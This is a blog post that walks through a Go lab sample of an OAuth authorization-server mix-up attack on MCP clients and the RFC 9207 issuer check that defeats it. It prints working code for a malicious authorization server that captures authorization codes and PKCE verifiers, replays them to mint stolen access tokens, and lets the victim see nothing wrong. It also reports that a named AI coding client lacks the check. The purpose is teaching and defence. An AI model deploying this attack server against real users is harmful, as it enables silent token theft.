

The previous post, [_When an MCP Client Trusts Multiple Authorization Servers: Stopping Mix-Up Attacks with RFC 9207_][prev], laid out the theory thoroughly: how the authorization-server mix-up attack works, why neither `state` nor PKCE stops it, and why [RFC 9207][rfc9207]'s `iss` parameter is the missing piece. But understanding the concept is one thing. **Watching a valid authorization code get stolen and minted into a real access token** is another thing entirely.

This is the hands-on companion. I take the [`03-oauth-mcp/issuer-identification` sample from go-training/mcp-workshop][sample] apart piece by piece: a malicious authorization server (`evil-as`), an MCP client that hand-rolls its OAuth flow, and an honest MCP resource server — three real Go programs you can actually run. You'll trigger the attack yourself and watch the attacker's terminal print `STOLEN ACCESS TOKEN`; then add one `-defense` flag and watch the same attack get cut off — by an `iss` comparison — before it does any harm.

[prev]: https://blog.wu-boy.com/2026/07/rfc9207-issuer-identification-mcp-mixup-en/
[rfc9207]: https://datatracker.ietf.org/doc/html/rfc9207
[sample]: https://github.com/go-training/mcp-workshop/tree/main/03-oauth-mcp/issuer-identification

<!--more-->

> **⚠️ Field-test note (2026-07-18):** I tested this against **the current latest Claude Code, `2.1.214`** — and it **does not validate the RFC 9207 `iss` parameter** when it runs the OAuth flow for an MCP server. In other words, the mix-up attack demonstrated here works against it: if even one of the authorization servers it trusts is malicious or compromised, an attacker can steal the code-for-token exchange exactly as in Scenario 2 below, **with no visible sign on the victim's side.** **Be careful before you connect Claude Code to any MCP server / authorization server you don't fully trust.** I haven't individually tested the other MCP clients (the various CLIs and desktop apps), but given the shared structural gap — RFC 9207 is a client-side responsibility that most implementations haven't built in yet — I'd assume **they very likely have the same problem.** Don't assume your client covers this for you. The good news: the official SDK roadmap ([SEP-2468][sep]) already schedules `iss` validation for the betas, so this hole should close in future versions — until then, staying alert is on you.

## 1. The three actors

The attack needs four services on stage together. The sample ships the first three as runnable Go programs; the fourth — the "honest authorization server" — is an external [Signet][signet] instance (the same one the neighboring `dcr/` and `client-credentials/` examples use):

| Program              | Role                                                                       | Default address  |
| -------------------- | -------------------------------------------------------------------------- | ---------------- |
| `mcp-client/main.go` | MCP OAuth client — hand-rolled Auth Code + PKCE, optional RFC 9207 check   | callback `:8085` |
| `evil-as/main.go`    | The **malicious authorization server** the client is tricked into trusting | `:9090`          |
| `mcp-server/main.go` | Honest MCP resource server, one Bearer-protected `who_am_i` tool           | `:8095`          |
| Signet (external)    | **Honest authorization server**, the one the attacker impersonates         | `:8080`          |

Here is how they relate. Note that `evil-as` and Signet are two **different** authorization servers, and the victim client **trusts both of them at once** — that is the single precondition the mix-up attack needs:



[signet]: https://github.com/go-signet/signet

## 2. The crucial premise: the SDK does not do RFC 9207 for you

Before we dissect the attack, we need to be clear about **why this sample hand-rolls everything**.

As the previous post mentioned, the official MCP SDK roadmap already schedules RFC 9207 `iss` validation ([SEP-2468][sep], landing in the 2026-07-28 betas). But this sample pins the **current stable [go-sdk `v1.6.1`][gosdk]** — and in that version:

- `auth.AuthorizationResult` has **only `Code` and `State`; there is no `Iss` field**. The SDK never hands you the `iss` from the authorization response at all.
- `oauthex.AuthServerMeta` **also lacks** the `authorization_response_iss_parameter_supported` flag.

```go
// go-sdk v1.6.1: auth/authorization_code.go
type AuthorizationResult struct {
    // Code is the authorization code from the authorization server.
    Code string
    // State returned by the authorization server.
    State string
    // No Iss — in this version RFC 9207 is entirely the client's responsibility.
}
```

That is the teaching core of the whole sample: **today, RFC 9207 protection is a client-side responsibility, not something the SDK grants for free.** So, exactly like the neighboring `dcr/` sample hand-rolls its PKCE flow (the SDK has no extension point for `resource=`), this client **reads the `iss` off the callback itself, fetches the flag from metadata itself, and does the comparison itself.** That gap _is_ the lesson.

[sep]: https://blog.modelcontextprotocol.io/posts/sdk-betas-2026-07-28/
[gosdk]: https://github.com/modelcontextprotocol/go-sdk/blob/v1.6.1/auth/authorization_code.go

## 3. The attacker: what `evil-as` actually does

The malicious authorization server does exactly three things, one per HTTP endpoint. Let's take them one at a time.

### 3-1. Masquerade as a normal AS (`/.well-known`)

To get the client to "trust" it, `evil-as` first has to look like a conformant [RFC 8414][rfc8414] authorization server. It advertises its own `/authorize` and `/token` — and, most deviously, **claims it supports RFC 9207**:

```go
// evil-as/main.go: handleMetadata
func (c *config) handleMetadata(w http.ResponseWriter, _ *http.Request) {
    meta := map[string]any{
        "issuer":                           c.issuer,               // http://localhost:9090
        "authorization_endpoint":           c.issuer + "/authorize",
        "token_endpoint":                   c.issuer + "/token",
        "response_types_supported":         []string{"code"},
        "grant_types_supported":            []string{"authorization_code"},
        "code_challenge_methods_supported": []string{"S256"},
        // Deliberately claims iss support — the very flag a defense-enabled
        // client uses to catch it.
        "authorization_response_iss_parameter_supported": true,
    }
    w.Header().Set("Content-Type", "application/json")
    _ = json.NewEncoder(w).Encode(meta)
}
```

Why would an attacker advertise a mechanism that will expose it? Because it is betting the client **does not validate**. Claiming support makes it flawless in the eyes of an unprotected client; against a protected client it would be caught either way, so the extra line costs nothing. This also demonstrates a key point about RFC 9207: **the metadata claim alone means nothing — what actually protects you is the one comparison the client performs against `iss`.**

### 3-2. The core trick: "hand the user off" to the honest AS (`/authorize`)

The whole essence of the mix-up lives in this endpoint. `evil-as`'s `/authorize` **authenticates no one** — it 302-redirects the browser straight to the honest AS's (Signet's) `/authorize`, **forwarding all of the victim client's parameters untouched**:

```go
// evil-as/main.go: handleAuthorize
func (c *config) handleAuthorize(w http.ResponseWriter, r *http.Request) {
    in := r.URL.Query()

    forward := url.Values{}
    for _, k := range []string{
        "response_type", "client_id", "redirect_uri", "scope", "state",
        "code_challenge", "code_challenge_method", "resource",
    } {
        if v := in.Get(k); v != "" {
            forward.Set(k, v)
        }
    }

    target := c.honestAuth + "?" + forward.Encode() // Signet's /authorize
    http.Redirect(w, r, target, http.StatusFound)
}
```

These few lines look unremarkable, but look closely at which fields it forwards — `state`, `code_challenge`, `redirect_uri`, all **copied verbatim**. This is the **code-level proof** of the "state useless, PKCE useless" row in the previous post's table:

- **Why doesn't `state` help?** The attacker forwards the victim's **own** `state`. When Signet later redirects the code back to the client, it carries that same `state`, so the client's comparison matches perfectly. `state` defends against CSRF (someone else's response injected into your session), but here the entire flow was initiated by the victim.
- **Why doesn't PKCE help?** The attacker forwards the victim's **own** `code_challenge`. Later the client redeems with **its own** `code_verifier` — just at the wrong place (`evil-as`). Both ends of the PKCE binding (challenge and verifier) stay in the victim's hands and always match. The attacker never has to break PKCE; it only borrows the road.

When Signet receives this request, it sees a **completely legitimate** authorization request: a valid `client_id`, a registered `redirect_uri` (`http://127.0.0.1:8085/callback`, the victim client's own callback). The user sees the familiar Signet consent screen, clicks approve, and Signet 302-sends a **valid, working authorization code** straight back to the victim client's callback.

**Here's the crux:** that code never passes through `evil-as`. The attacker doesn't need to intercept it — it relies on the client "thinking it's still talking to `evil-as`."

### 3-3. The harvest: capture the code at `/token` and mint a real token

If the client skips RFC 9207 validation, it dutifully sends the code it just received to the token endpoint it _thinks_ it's talking to — `evil-as`'s `/token`. The theft happens here:

```go
// evil-as/main.go: handleToken
func (c *config) handleToken(w http.ResponseWriter, r *http.Request) {
    _ = r.ParseForm()
    form := r.PostForm

    slog.Warn("CAPTURED authorization code at evil-as /token endpoint",
        "code", form.Get("code"),
        "code_verifier", form.Get("code_verifier"), // the victim even hands over the PKCE verifier
        "client_id", form.Get("client_id"),
    )

    // Redeem on a detached context: once the code is in hand, the theft must
    // complete even if the victim client disconnects right after — the attacker
    // does not depend on the victim keeping the connection open.
    redeemCtx, cancel := context.WithTimeout(context.Background(), 30*time.Second)
    defer cancel()
    body, status, _ := c.redeemAtHonest(redeemCtx, form) // replay the whole form to Signet /token

    if status == http.StatusOK {
        var tok struct{ AccessToken, TokenType string }
        _ = json.Unmarshal(body, &tok)
        slog.Warn("STOLEN ACCESS TOKEN minted from captured code",
            "access_token", tok.AccessToken)
    }

    // Return Signet's response verbatim so the victim client is none the wiser.
    w.WriteHeader(status)
    _, _ = w.Write(body)
}
```

Two details here are worth stopping on:

1. **Even the `code_verifier` is volunteered by the victim.** To redeem, the client POSTs its PKCE verifier along with the code. The attacker thus holds both `code` and `code_verifier` — both PKCE keys. `redeemAtHonest` only has to **replay the entire form as-is** to Signet's token endpoint to succeed, because everything it needs — `code`, `code_verifier`, `redirect_uri`, `resource` — is already in there.
2. **It returns Signet's response verbatim.** After getting the real token, `evil-as` copies Signet's success response straight back to the victim client. So **the victim's terminal looks entirely normal** — token obtained, MCP connected, `who_am_i` answered — with zero indication the token has leaked. That "silent success" is the most insidious part of the mix-up.

## 4. The defender: the client-side RFC 9207 check

Now the victim's side. The client fills in the piece the SDK is missing, in three steps.

### 4-1. Read the `iss` off the callback

The SDK won't give you `iss`, so read it yourself. The client pulls it straight from the query in its callback handler:

```go
// mcp-client/main.go: callback handler
code := q.Get("code")
if code == "" {
    errCh <- errors.New("callback missing code")
    return
}
// The SDK's AuthorizationResult has no Iss, so grab it from the query ourselves.
resultCh <- authResult{code: code, iss: q.Get("iss")}
```

### 4-2. Fetch the flag from metadata yourself

`oauthex.AuthServerMeta` doesn't surface `authorization_response_iss_parameter_supported`, so the client hits the metadata document again just to parse that one bool (defaulting to `false` on any error):

```go
// mcp-client/main.go: fetchIssParameterSupported (excerpt)
var doc struct {
    IssParameterSupported bool `json:"authorization_response_iss_parameter_supported"`
}
if err := json.Unmarshal(body, &doc); err != nil {
    return false
}
return doc.IssParameterSupported
```

### 4-3. Byte-for-byte comparison — the heart of the whole sample

The actual defense is one function. It nails down all four cases from RFC 9207 §2.4:

```go
// mcp-client/main.go: validateIssuerResponse
func validateIssuerResponse(iss, expectedIssuer string, issParameterSupported bool) error {
    if issParameterSupported {
        if iss == "" {
            // AS advertises iss support but sent none → treat as anomalous
            return fmt.Errorf("issuer identification required but authorization "+
                "response carried no iss (expected %q)", expectedIssuer)
        }
        if iss != expectedIssuer { // byte-for-byte, RFC 9207 §2.4
            return fmt.Errorf("issuer mismatch: got %q want %q — aborting",
                iss, expectedIssuer)
        }
        return nil
    }
    // AS does not advertise support → a conforming AS must not send iss;
    // if one appears, the response is not trustworthy.
    if iss != "" {
        return fmt.Errorf("authorization response carried iss %q but the AS does not "+
            "advertise issuer identification support — aborting", iss)
    }
    return nil
}
```

`expectedIssuer` is the trusted baseline the client took from **the metadata of the AS it discovered** (`meta.Issuer`); `iss` is the value the authorization response carried back. When the attack runs:

- The client originally discovered `evil-as`, so `expectedIssuer = http://localhost:9090`.
- But the code was redirected back by Signet, so the callback's `iss = http://localhost:8080`.
- They don't match → `validateIssuerResponse` returns an error → the client aborts _before it sends the code anywhere_.

And this comparison sits **before the code is sent** — that timing is essential:

```go
// mcp-client/main.go: runAuthCodeFlow (excerpt)
if cfg.defense {
    if err := validateIssuerResponse(res.iss, meta.Issuer, issSupported); err != nil {
        return nil, fmt.Errorf("RFC 9207 issuer validation failed: %w", err)
    }
    slog.Info("iss OK — issuer matches the discovered authorization server", "iss", res.iss)
} else {
    slog.Warn("skipping RFC 9207 validation (defense off) — posting code to the "+
        "discovered token endpoint regardless of who really issued it")
}
return exchangeCode(ctx, cfg, meta.TokenEndpoint, res.code, redirectURI, pkce.Verifier)
```

The `-defense` flag controls exactly one thing: whether to run this check before sending the code. Turn it off and the client degrades to the fragile behavior the previous post described — "decide where to send the code based only on what my session remembers."

## 5. Running the three scenarios

Now that the code makes sense, let's run it. You need a Signet honest AS at `http://localhost:8080`, with a client registered there whose redirect URI is `http://127.0.0.1:8085/callback`. Because everything is on `localhost`, the SDK's loopback exception permits plain HTTP.

### Step 0: confirm Signet actually emits `iss`

The defense scenarios depend entirely on the honest AS truly stamping `iss` on the redirect and advertising the flag. Confirm before you start:

```bash
curl -s http://localhost:8080/.well-known/oauth-authorization-server \
  | grep -o '"authorization_response_iss_parameter_supported":[^,}]*'
```

You want `"authorization_response_iss_parameter_supported":true`. **If it's `false` or absent, this Signet build doesn't implement RFC 9207 and the defense can't trigger** — which reinforces the previous post's point: the `iss` line of defense only holds when **both** server and client are in place.

### Start the two long-running services

```bash
# terminal 1 — honest MCP resource server (:8095)
go run ./03-oauth-mcp/issuer-identification/mcp-server \
  -auth-server http://localhost:8080 \
  -resource    http://localhost:8095/mcp

# terminal 2 — malicious authorization server (:9090)
go run ./03-oauth-mcp/issuer-identification/evil-as \
  -issuer    http://localhost:9090 \
  -honest-as http://localhost:8080
```

On startup `evil-as` discovers Signet's authorize/token endpoints and logs `evil-as impersonation target discovered`. Pass `-redeem=false` if you want it to only log the capture and not actually mint a token.

### Scenario 1: honest path (defense on, reaches the tool)

The client discovers Signet directly, `iss` matches, the code is redeemed at Signet, and the client reaches the MCP tool:

```bash
go run ./03-oauth-mcp/issuer-identification/mcp-client \
  -auth-server http://localhost:8080 \
  -mcp-url     http://localhost:8095/mcp \
  -client_id   <your-registered-client-id> \
  -defense
```

A browser opens; after login and consent the client logs `iss OK — issuer matches the discovered authorization server`, then `connected` to the MCP server and returns the `who_am_i` identity claims. This is the "everything correct" baseline.

### Scenario 2: mix-up attack, defense OFF (the code is stolen)

This time point the client at `evil-as` (`:9090`), and **omit** `-defense`:

```bash
go run ./03-oauth-mcp/issuer-identification/mcp-client \
  -auth-server http://localhost:9090 \
  -mcp-url     http://localhost:8095/mcp \
  -client_id   <your-registered-client-id>
```

After login and consent, look at **terminal 2 (`evil-as`)** — you'll see the attack unfold in full:

```text
evil-as /authorize hit — performing mix-up redirect to honest AS
CAPTURED authorization code at evil-as /token endpoint  code=... code_verifier=...
STOLEN ACCESS TOKEN minted from captured code  access_token=eyJ...
```

**The thing to really absorb is terminal 3 (the client itself):** because `evil-as` returns Signet's response verbatim and `-connect` defaults on, the victim client's terminal shows an apparently **successful** run — token obtained, MCP connected, a normal `who_am_i` result printed. **Nothing on the victim's side signals the theft.** The only evidence is on the attacker's terminal. That silent success is exactly why the mix-up is dangerous, and why the next scenario matters.

### Scenario 3: mix-up attack, defense ON (the client aborts)

Same setup as scenario 2, plus one `-defense`:

```bash
go run ./03-oauth-mcp/issuer-identification/mcp-client \
  -auth-server http://localhost:9090 \
  -mcp-url     http://localhost:8095/mcp \
  -client_id   <your-registered-client-id> \
  -defense
```

This time the client logs:

```text
authorization response received at callback  expected_issuer=http://localhost:9090 received_iss=http://localhost:8080
RFC 9207 issuer validation failed: issuer mismatch: got "http://localhost:8080" want "http://localhost:9090" — aborting
```

and then **exits before ever contacting `evil-as`'s token endpoint**. Back on terminal 2 you'll see only the `/authorize` redirect line — **no** `CAPTURED authorization code`. The attacker gets nothing. One flag, one string comparison, and the attack is cut off before it does any harm.

## 6. Verifying without any server: the unit test

The four branches of the `iss` comparison are pinned by a table-driven test that needs no server at all:

```go
// mcp-client/issuer_test.go (excerpt)
tests := []struct {
    name         string
    iss          string
    issSupported bool
    wantErr      bool
}{
    {"supported and iss matches expected",           expected,               true,  false},
    {"supported but iss missing",                    "",                     true,  true},
    {"supported but iss mismatched (the mix-up)",    "http://localhost:9090", true,  true},
    {"not supported but iss present",                expected,               false, true},
    {"not supported and iss absent (legacy AS)",     "",                     false, false},
}
```

```bash
go test ./03-oauth-mcp/issuer-identification/...
```

That `supported but iss mismatched (the mix-up)` row is the pure-function version of scenario 3 — the entire attack distilled into one `iss != expectedIssuer` decision.

## Wrapping up

This sample turns the previous post's abstract argument into three concrete behaviors you can watch with your own eyes:

- **`evil-as/handleAuthorize`** — those lines forwarding `state` and `code_challenge` verbatim are the ironclad proof of why `state` and PKCE structurally can't stop a mix-up: the attacker doesn't break them, it borrows the road.
- **`evil-as/handleToken`** — returning Signet's response as-is demonstrates why the attack is "silent": the victim sees a successful login while the token is already in the attacker's hands.
- **`validateIssuerResponse`** — one byte-for-byte comparison turns the client's judgment of "where did this code come from" from a _guess_ into a _check_, and the attack breaks before the code goes out.

And one conclusion that's easy to skip but matters most to implementers: **in today's go-sdk `v1.6.1`, RFC 9207 is the client's responsibility — the SDK won't do it for you.** `AuthorizationResult` has no `Iss`, `AuthServerMeta` has no flag, so you read, fetch, and compare yourself, exactly as this sample does. Once the official SDK betas (SEP-2468) land, this hand-rolled code will be replaced by a built-in — but until then, this gap is a hole you patch yourself.

And don't file this under "someone else's bug" — even **the current Claude Code `2.1.214`** doesn't do this check yet (I tested it; see the note up top), so this isn't a distant hypothetical, it's a risk you're exposed to the moment you connect an MCP server. If you're writing or choosing an MCP client, my advice is blunt: **clone this sample and run all three scenarios once.** When you see that `STOLEN ACCESS TOKEN` line with your own eyes, then watch `-defense` make it disappear, your grasp of _why every authorization response must sign itself_ will be firmer than reading the RFC ten times.

Full code and a step-by-step runbook here: <https://github.com/go-training/mcp-workshop/tree/main/03-oauth-mcp/issuer-identification>.

[rfc8414]: https://datatracker.ietf.org/doc/html/rfc8414
